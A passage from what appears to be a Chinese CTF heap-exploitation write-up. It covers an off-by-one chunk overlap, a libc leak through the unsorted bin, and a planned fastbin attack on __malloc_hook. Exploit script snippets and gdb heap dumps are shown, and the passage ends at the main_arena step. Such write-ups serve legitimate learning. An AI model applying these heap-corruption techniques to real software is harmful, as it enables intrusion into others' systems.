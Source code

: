 **学习过程中，参考了以下博文:**

https://blog.csdn.net/qq_33528164/article/details/79951156   这篇我觉得泄露地址的方法最简便，但是最后无法getshell，我的exp是在他的基础下写的。

https://www.jianshu.com/p/959d4b7b5af1

https://www.jianshu.com/p/95b30d754577

**基本利用思路：**

1. 利用了offbyone，修改处于inuse状态的chunk的size，造成chunk overlap来泄露地址，注意free的时候会检查下一个chunk的size的prev_inuse位是否为1.然后通过fastbin attack完成攻击。
2. 由于__malloc_hook附近没有可用的fake_size。上述的博文的利用思路是利用fastbin attack先将chunk分配到main_arena里.方法是利用chunk overlap，将处于fastbin的chunk的fd修改为0x61,再malloc一个size为0x60的chunk，这时fastbin里的内容就会变成0x61，这样就可以使用fastbin attack，将堆分配到main_arena.
3. 然后修改top_chunk到__malloc_hook附近。再次申请chunk即可得到malloc_hook附近的chunk。但是利用过程出现了很多上述博文没有出现的问题。一步一步的调试最终解决问题。下面记录调试过程。

**详细调试过程：**

复现环境：ubuntu 16.04

1. 泄露地址：

```
alloc(0x48) #0
alloc(0x48) #1
alloc(0x48) #2
alloc(0x48) #3 ；防止被top chunk合并
update(0, 0x49, "A"*0x48 + "\xa1") #修改chunk1的size为0xa1
delete(1)   #1 ；free chunk1，chunk1被放入unsorted bin中
alloc(0x48) #1 ；再malloc 一个0x50大小的chunk，那么chunk1被切割，剩余部分放入unsorted bin，被写入地址。即chunk2的userdata部分被写入&main_arena+88
view(2)     #    泄露地址
p.recvuntil("Chunk[2]: ")
leak = u64(p.recv(8))
libc_base = leak - 0x58-libc.symbols["__malloc_hook"]-0x10
```
连续申请4个chunk后的heap布局如下：
```
0x555555757000 FASTBIN {  #chunk0
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x555555757050 FASTBIN {  #chunk1
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570a0 FASTBIN {  #chunk2
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570f0 FASTBIN { #chunk3
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```
修改chunk1的size为0xa1:
```
0x555555757050 PREV_INUSE {
  prev_size = 4702111234474983745, 
  size = 161, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```
然后free chunk1,再alloc(0x48):
```
0x555555757050 FASTBIN {
  prev_size = 4702111234474983745, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570a0 FASTBIN {
  prev_size = 0, 
  size = 81, 
  fd = 0x7ffff7dd1b78 <main_arena+88>, #原本chunk2里就有了地址，再view即可泄露
  bk = 0x7ffff7dd1b78 <main_arena+88>, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

2. dup to main_arena:

